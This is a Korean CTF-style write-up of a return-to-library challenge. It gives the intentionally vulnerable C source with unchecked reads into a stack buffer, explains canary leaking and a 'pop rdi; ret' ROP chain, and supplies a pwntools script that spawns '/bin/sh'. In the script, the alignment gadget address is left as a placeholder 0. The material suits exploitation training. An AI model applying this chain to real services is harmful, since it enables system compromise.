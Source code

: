 Return to Library 라이트업
====================

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

코드를 분석해보면 

**1. "/bin/sh"를 바이너리에 추가**

* rtl.c 코드의 8번째 줄은 바이너리에 /bin/sh 문자열을 추가하기 위해 작성된 코드이다.
* ASLR이 적용되더라도 PIE(Position-Independent Executable)가 적용되지 않으면
  코드 세그먼트와 데이터 세그먼트의 주소는 고정된다.
   /bin/sh의 주소도 고정되어 있다.  

**2. PLT에 system 함수 추가**

* 17번째 줄은 PLT에 system 함수를 추가하기 위해 작성된 코드이다.
* system 함수는 라이브러리 함수이므로 PLT와 GOT는 라이브러리 함수 참조를 위해 사용되는 테이블들이다.
* 처음에는 system 함수의 주소가 resolve되지 않았을 때 함수의 주소를 구하고 실행하는 코드가 작성된다.
* **Return to PLT 공격**의 원리: ASLR이 걸려있더라도 PIE가 적용되어 있지 않다면 PLT의 주소는 고정되어 있다.
  따라서 PLT에 어떤 라이브러리 함수가 등록되어 있다면
   공격자는 해당 함수의 PLT 엔트리로 실행 흐름을 옮김으로써 해당 함수를 실행할 수 있다.
  무작위 주소에 매핑되는 라이브러리의 베이스 주소를 몰라도 이 방법을 통해 라이브러리 함수를 실행할 수 있다.   

**3. 버퍼 오버플로우**

* 코드의 19번째 줄부터 28번째 줄까지는 두 번의 버퍼 오버플로우로 스택 카나리를 우회하고, 
반환 주소를 덮을 수 있도록 작성된 코드이다.


## 익스플로잇


* **카나리 우회:** 첫 번째 입력에서 적절한 데이터를 입력하여 카나리를 우회한다.
* **`rdi` 값을 "/bin/sh"의 주소로 설정 및 셸 획득:**
    * 카나리를 우회한 후, 두 번째 입력으로 반환 주소를 덮을 수 있다.
    * NX으로 인해 `buf`에 셸코드를 주입하고 직접 실행할 수는 없다.
    * **공격에 필요한 정보:**
        * "/bin/sh" 문자열의 주소를 알고 있다.
        * `system` 함수의 PLT 주소를 알고 있다. (이를 통해 `system` 함수를 호출할 수 있다.)
    * **목표:** `/bin/sh`를 호출하여 셸을 획득하는 것이다.
      x86-64 호출 규약에 따르면 `system("/bin/sh")`은 `rdi` 레지스터에
      `"/bin/sh"` 주소가 있는 상태에서 `system` 함수를 호출하는 것과 같다.
    * **Return-Oriented Programming (ROP) 활용:** `/bin/sh`의 주소를 알고
      `system` 함수를 호출할 수 있으므로
       `/bin/sh`의 주소를 `rdi` 값으로 설정할 수 있다면
       `system("/bin/sh")`을 실행할 수 있다. 이를 위해 **리턴 가젯**을 활용해야 한다.


### 리턴 가젯

<img width="687" height="87" alt="image" src="https://github.com/user-attachments/assets/ef210971-58f3-4e5f-a964-d35db3c53de6" />

return gadget이란 ret 명령어로 끝나는 어셈블리 코드 조각을 의미한다. ROPgadget 명령어를 사용해서 위와 같이 가젯을 구할 수 있다.

이 문제에서는 rdi의 값을 `/bin/sh`의 주소로 설정하고 system 함수를 호출해야 한다. 

```
addr of ("pop rdi; ret")   <= return address
addr of string "/bin/sh"   <= ret + 0x8
addr of "system" plt       <= ret + 0x10
```

리턴 가젯을 사용해서 반환 주소와 이후의 버퍼를 이렇게 덮으면 pop rdi로 rdi의 주소를 `/bin/sh` 의 주소로 설정하고 이어지는 ret으로 system 함수를 호출할 수 있다. 


### 익스플로잇 코드


```python
from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

system_plt = e.plt['system']
binsh = 0x400874
pop_rdi = 0x0000000000400596
ret = 0 # ROPgadget --binary=./rtl | grep ": ret"

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8
payload += p64(ret)  
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)

pause()
p.sendafter(b'Buf: ', payload)

p.interactive()
```


